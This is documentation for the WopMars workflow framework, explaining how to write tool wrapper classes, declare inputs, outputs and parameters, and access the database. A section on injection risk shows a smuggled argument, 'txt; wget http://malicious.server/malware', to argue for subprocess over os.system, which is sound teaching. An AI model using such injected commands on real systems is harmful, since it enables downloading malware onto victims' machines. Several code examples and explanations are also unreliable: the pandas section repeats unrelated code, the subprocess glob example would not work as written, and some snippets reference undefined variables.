 The Tool Wrappers
=======================

This manual aims to explain with simple words how to write the `tool wrappers` in order to allow a fresh Python developer to configure his own analysis workflow. This manual often refers to the Wopfile  so I recommand you to keep the :doc:`Wopfile </content/wopfile>` section open in case of blackout.

This starting guide will allow you to understand the main mecanisms which rule **WopMars**. It means the way WopMars talks with the `tool wrappers` you are using to understand their role in the workflow in terms of input and output parameters.

To illustrate the necessary conditions to build a correct `Toolwrapper`, we will use some kind of *TO DO* task list to prevent forgetting steps. The order doesn't matter but, I insist, each step is essential.

Developing basic `tool wrappers`
..................................

Declaring your class
--------------------

To define a `Toolwrapper` we will use an important concept of the *Object Oriented Programming* (OOP) which is **abstract inheritance**.

.. note::

    An abstract class is a class which represent a concept and, consequently, which is not supposed to be instantiated. For example, the bird concept: a bird flies and sings: an abstract class ``Bird`` would have methods like ``fly`` and  ``sing`` with nothing inside. Actually, there are no species called "bird", however, there are ducks and eagles. A duck is a realization of the concept of "bird". In OOP, the class ``Duck`` would inherit from ``Bird`` and would overide the methods ``fly`` and ``sing`` to specialize them in order to fit with the duck characteristics. Here, ``Duck`` is a subclass of ``Bird``.
    
A `Toolwrapper` compatible with **WopMars** have to be a subclass of the abstract class, prepare yourself, ``Toolwrapper``! For WopMars, every `Toolwrapper` is a subclass of ``Toolwrapper`` and if you ask it to work with a class which do not satisfy this simple condition, you'll obtain an error. The reason for that is simple: if your `Toolwrapper` inherit from ``Toolwrapper``, then it is certain that it contains some methods and attributes familiar to WopMars. Otherwise, there are no guarantees.

An other important thing necessary to work with WopMars is to provide the static class attribute ``__mapper_args__`` to your `Toolwrapper`. This attribute is a dictionnary which should have ``polymorphic_identity`` as key and the full name of the class (contained in a String) as value. This information is necessary to WopMars because when it will store the `tool wrappers` informations into the database, WopMars will be able to keep track of the inheritance between your `Toolwrapper` and the ``Toolwrapper`` class.

.. note::
    A static class attribute is an attribute associated with a class and not with a specific object of this class. Modifying this kind of attribute in an object of a given class is somehow similar to modifying this attribute in every object of the class (those that already exist and those future).

Here is an example of the declaration of a class called ``SparePartsManufacturer``:

.. code-block:: python

    from wopmars.framework.bdd.tables.ToolWrapper import ToolWrapper


    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }
        pass

You have now created your first `Toolwrapper`, but the aims to use abstract class inheritance is to guarantee to **WopMars** that each ``Toolwrapper`` implements some methods which describe its role.

`Toolwrapper` specifying methods
++++++++++++++++++++++++++++++++

A good way to see a `Toolwrapper` is to see it as an independant software. Meaning that it has a well defined role which is to generate a specific output in terms of a specific kinf of input with some options to parametrize its behavior. Anyway, this is the way WopMars is "watching" to the `tool wrappers`. The link between a `Toolwrapper` and WopMars is done thanks to inherited methods from ``Toolwrapper`` which have to be re-wrote by the `Toolwrapper` developer.

Describing files: ``specify_input_file`` and ``specif_output_file``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The files called *input files* and *output files* are, on the one hand, the necessary files for the tool to work and, on the other hand, the files generated by the tool. A `Toolwrapper` doesn't rely on a specific file on the machine: it shouldn't access a file in a hard-coded way but should use some kind of variable containing the path to the given file. It is for the `Toolwrapper` developer to specify those variable names and they have to be respected in the workflow definition file (see :doc:`Wopfile section </content/wopfile>`). Those variable names are known by WopMars thanks to the methods ``specify_input_file`` (for the variable names associated with inputs) and ``specify_output_file`` (for the variable names associated with outputs). Those methods have to return each one a list containing the Strings containing the variable names accepted by the `Toolwrapper`.

.. warning::

    Every files asked by a `Toolwrapper` are required. It means that the processing of the `Toolwrapper` rely on every asked inputs and outputs. If a file is optional, you should specify it in the method ``specify_params`` (we will see it later)


The class ``SparePartsManufacturer`` takes a file in input but doesn't produce any output file. The input file path will be contained in the field named "pieces".

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

Describing tables: ``specify_input_table`` and ``specify_output_table``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**WopMars** makes its `Toolwrapper` able to parse_wopfile and write entries in a database. Like for the files, the `tool wrappers` have to specify in which table of the database they will parse_wopfile (input tables) and in which they will write (output tables). So, the ``Toolwrapper`` class implements the methods ``specify_input_table`` and ``specify_output_table``. However, this time, the Strings contained in the returned list are associated with both the variables containing the table models and the name of the tables itself.

The final user have to write the same table names as keys in the `table` part of the definition file (see :doc:`Wopfile section </content/wopfile>`) and the path to the models associated with those tables as the values to specify which one the `Toolwrapper` should use. Usually, a `Toolwrapper` is closely related to a specific model but we can imagine that if two models are similar for a given `Toolwrapper`, it could use one or the other independantly (for example, if a model B inherit from the model A, then every `Toolwrapper` able to use A should be able to use B too).

.. note::

    At the moment, the concept of model shouldn't be clear but don't worry, in the section concerning the models, you will get more explanations about those models. At the moment, simply note that the `Toolwrapper` communicate its input and output table names in the methods ``specify_input_table`` and ``specify_output_table``.

Here is the rest of the `Toolwrapper` ``SparePartsManufacturer`` which writes its results in the table ``piece``:

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

        def specify_output_table(self):
            return ["piece"]

Describing paramaters: ``specify_params``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

An other feature offered by the `tool wrappers` is to allow you to specify some parameters for the processing of the wrapper. Usually, those parameters will be associated with the options allowed by the analysis tool itself. They may also correspond to options used by the `toolwrappers` to offer flexibility for the pre and post processing of the data.

To specify which options a `Toolwrapper` is able to understand, it implements a method ``specify_params``. This method returns a dictionnary in which each key correspond to the name of the option which will be used in the definition file (see :doc:`Wopfile section </content/wopfile>`) and each value, a String representing its type. The availables types are the following (to memorize them, just think about the different Python data types):
- ``int``
- ``float``
- ``str``
- ``bool``

Furthermore, the key word ``required`` is available and allows to specify that one option has to be given by the user for the tool to run. To specify the type and use ``required`` at the same time, the character ``|`` will be used as a delimiter inside the String.

In the following class, the parameter ``max_price`` is an ``int`` and will be used to get only the entries with a price lower than it, if set.

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

        def specify_output_table(self):
            return ["piece"]

        def specify_params(self):
            return {
                "max_price": int
            }

Declaring the method ``run``
++++++++++++++++++++++++++++

The ``run`` method contains the core of your `Toolwrapper`. The data processing and the call to the underlying analysis tool will be done here.

Calling files: ``self.input_file`` and ``self.output_file``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The path to the files given by the final user are manipulated thanks to the methods ``self.input_file`` and ``self.output_file`` with the name of the variable containing the desired file as argument. For example, in our definition file, we have:

.. code-block:: yaml

    rule Rule1:
        tool: 'wopexamplesnp.wrapper.SparePartsManufacturer'
        input:
            file:
                pieces: 'input/pieces.txt'

We can access the string `input/pieces.txt` with the following statement::

    self.input_file("pieces")

Calling models: ``self.input_table`` and ``self.output_table``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The models given by the user can be accessed thanks to the methodes ``self.input_table`` and ``self.output_table`` with the table name as argument. This way, and unlike the files, you won't get the string representing the model but the model itself. For example:

.. code-block:: yaml

        output:
            table:
                piece: 'wopexamplesnp.model.Piece'

We can access the model ``Piece`` with the following statement::

    self.output_table("piece")

Session and accessing the database
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If you are using **WopMars**, it is probably for the database access. Now, you know how to call the models from your method ``run`` but you probably doesn't know what to do with them. This section aims to explain how you should use your models and a session to access the database.

.. note:: 

    When you are working with databases, there is three level of hierarchy of the work you are performing on it: the session, the transaction and the operation:
    
    - The operation corresponds to each single task you are asking the database to do (``SELECT``, ``INSERT``, ``UPDATE``, ``DELETE``, etc.)
    - The transaction is a series of operations which are closely related (for example: ``SELECT``, compute then ``INSERT``). When a transaction finishes, the state of the database is checked, if every thing seems right and well ordered, the transaction is validated (``COMMIT``), if not, the whole transaction is canceled (``ROLLBACK``) in order to return to a stable state.
    - The session is a series of transactions which are independant. In other words, when you want to work with the database, you open a session and it says "I'm gonna work with you, database, are you ok?". Then, every operations you will perform will be associated with __your__ session before being ``COMMITED`` or ``ROLLBACKED``.

Developing Advanced `tool wrappers`
.....................................

Now that you understand the basics of the development of the `tool wrappers` you may want to do more advanced tricks to deal with **WopMars**. 

Parametrize inputs and outputs
------------------------------

During the parsing of the configuration file, WopMars check first the validity of the parameters and then look at the inputs and outputs. This behavior allow you to parametrize which input and output your `Toolwrapper` is supposed to take depending on the used parameters. In this example, the parameter ``to_file`` is a ``boolean`` and if it is ``True``, the result is written in a file instead of the database.

.. code-block:: python

    class CarAssembler(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.CarAssembler"
        }

        def specify_output_file(self):
            if not self.option("to_file"):
                return []
            else:
                return ["piece_car"]

        def specify_input_table(self):
            return ["piece"]

        def specify_output_table(self):
            if self.option("to_file"):
                return []
            else:
                return ["piece_car"]

        def specify_params(self):
            return {
                "to_file": "bool",
                "max_price": "int",
            }

And there, the definition file (``Wopfile2`` in the example directory) look like this:

.. code-block:: yaml

    # Rule1 use SparePartsManufacturer to insert pieces informations into the table piece
    rule Rule1:
        tool: 'wopexamplesnp.wrapper.SparePartsManufacturer'
        input:
            file:
                pieces: 'input/pieces.txt'
        output:
            table:
                piece: 'wopexamplesnp.model.Piece'

    # CarAssembler make the combinations of all possible pieces to build cars and calculate the final price
    rule Rule2:
        tool: 'wopexamplesnp.wrapper.CarAssembler'
        input:
            table:
                piece: 'wopexamplesnp.model.Piece'
        output:
            # Here the output is written in a file
            file:
                piece_car: 'output/piece_car.txt'
        params:
            # The price have to be under 2000!
            max_price: 2000
            to_file: True

Inherit models
--------------

During the conception of your workflows, you may want to make multiple rules write in the same table in a specific order (for example, one rule create entries and the other add informations in the fields). Basically, you would do like ever, playing with inputs and outputs in order to fit your needs but this way, you will be stuck with a logic problem where WopMars won't be able to say "this rule should be run before this one", like in the following schema:

.. figure::  ../images/model_inheritance.png
   :align:   center
   
   *If you want the rules to be run in this specific order, WopMars can't understand if `rule 2` is supposed to run before `rule 4` on the basis of the table names*

You can bypass this issue using *model inheritance*. With the model inheritance, you can build a model which inherit from a former model and add it some new attributes.

Taking back our model example ``Piece``, we need an other model which add the field ``date`` to the table. We call this model ``DatedPiece``

.. code-block:: python

    from sqlalchemy.sql.sqltypes import Date
    from sqlalchemy import Column

    from wopexamplesnp.model.Piece import Piece


    class DatedPiece(Piece):
        date = Column(Date)
        
With this model, there is an other `Toolwrapper` provided in the example: ``AddDateTopiece`` which show use of the same table as input and output. You can note that here, the `output_table` only is used. Actually, we are interested here in only ``DatedPiece`` objects:

.. code-block:: python

    import time, datetime
    import random

    from wopmars.framework.bdd.tables.ToolWrapper import ToolWrapper


    class AddDateToPiece(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.AddDateToPiece"
        }

        def specify_input_table(self):
            return ["piece"]

        def specify_output_table(self):
            return ["piece"]

        def run(self):
            session = self.session
            DatedPiece = self.output_table("piece")

            for p in self.session.query(DatedPiece).all():
                date = datetime.datetime.fromtimestamp(time.time() - random.randint(1000000, 100000000))
                p.date = date
                session.add(p)
            session.commit()

Executing clean command line
----------------------------

In your learning of Python, you may have encountered the famous ``os.system("command-line")`` and you probably want to make use of it again. Sorry, you **shouldn't do** things this way. Especially if you are running long analysis software. Instead, I'll show you how to use the module `subprocess <https://docs.python.org/3/library/subprocess.html>`_ for simple things and, please, use it extensively in order to get more control on the command lines you are executing.

.. note::

    As far as I know, there is two main differences between ``os.system()`` and ``subprocess`` plus the fact that ``subprocess`` is actually a little more difficult to use than the former:
    
    - ``os.system()`` is very sensible to malicious code injection. Example:

        .. code-block:: python

            def list_extension(ext):
                os.system("ls -1 *." + str(ext))
            
        This function is supposed to list all the files of a given extension in the directory. But if,  instead of passing ``txt`` as argument, I pass ``txt; wget http://malicious.server/malware`` then, the function will list the files with ``txt`` extension and download the malware from the malicious server!

        Now, with ``subprocess.Popen``, you can't do such a thing because spaces are not allowed inside arguments:

        .. code-block:: python

            def list_extension(ext):
                subprocess.Popen(["ls", "-1", "*." + str(ext)])
        
    - ``subprocess`` open a Pipe between the python process and the subprocess whereas ``os.system`` calls a subshell independant of the first. This difference makes the communication between the subprocess and your python code far more easy with ``subprocess`` instead of ``os.system`` in which it is nearly impossible

Reading/writing to the database
...............................

Reading and writing to the database has to be carried out through the WopMars session. The WopMars session implements a lock system to prevent database inconsistencies. There are three implemented methods to parse_wopfile/write to the database with the wopmars session.

- SQLAlchemy ORM
- SQLAlchemy core
- Pandas read_sql and to_sql

SQLAlchemy ORM
--------------------

The SQLAlchemy ORM is very simple but it is also quit slow after 100 objects. Inside the `run` method of the tool wrapper, we will can take a WopMars session simply with `self.session` and then call SQLAlchemy ORM methods on it.

        .. code-block:: python

            # This code is for illustration purpose and has not been tested
            # inside the run of a tool wrapper MyWrapper
            def run(self):
                session = self.session
                my_input_model = self.output_table(MyWrapper.__input_table1)
                query_dic = {'col1': value_1, 'col2': value_2}
                try: # check if query_dic exists
                    session.query(my_input_model).filter_by(**query_dic).one()
                except: # if not add and later commit
                    snp_instance = snp_model(**snp_dic)
                    session.add(snp_instance)
                session.commit()

SQLAlchemy core
--------------------

Inside the `run` method of the tool wrapper, we need to retrieve a list of object dictionaries in the database. Then we check if new objects are not already in the database and then insert a list of such object dictionnaries.

        .. code-block:: python

            # This code is for illustration purpose and has not been tested
            # inside the run of a tool wrapper MyWrapper
            def run(self):
                session = self.session
                engine = session._WopMarsSession__session.bind
                conn = engine.connect()
                #
                my_input_model = self.output_table(MyWrapper.__input_table1)
                #
                # retrieve all objects in database
                sql = select([my_input_model.col1])
                my_input_model_in_db = [{'col1': row[0] for row in conn.execute(sql)}]
                # check if new col1:val1 not already in db
                if not {'col1': val1} in my_input_model_col1_db:
                    # add to list of value dics
                    my_input_model_new_objects=[{'col1': val1}]
                # bunch insert list of value dics
                engine.execute(my_input_model.__table__.insert(), [my_input_model_val1_dic])

Pandas read_sql and to_sql
----------------------------

Inside the `run` method of the tool wrapper, we need to retrieve a list of object dictionaries in the database. Then we check if new objects are not already in the database and then insert a list of such object dictionnaries.

        .. code-block:: python

            # This code is for illustration purpose and has not been tested
            # inside the run of a tool wrapper MyWrapper
            def run(self):
                session = self.session
                engine = session._WopMarsSession__session.bind
                conn = engine.connect()
                #
                my_input_model = self.output_table(MyWrapper.__input_table1)
                #
                # retrieve all objects in database
                sql = select([my_input_model.col1])
                my_input_model_in_db = [{'col1': row[0] for row in conn.execute(sql)}]
                # check if new col1:val1 not already in db
                if not {'col1': val1} in my_input_model_col1_db:
                    # add to list of value dics
                    my_input_model_new_objects=[{'col1': val1}]
                # bunch insert list of value dics
                engine.execute(my_input_model.__table__.insert(), [my_input_model_val1_dic])


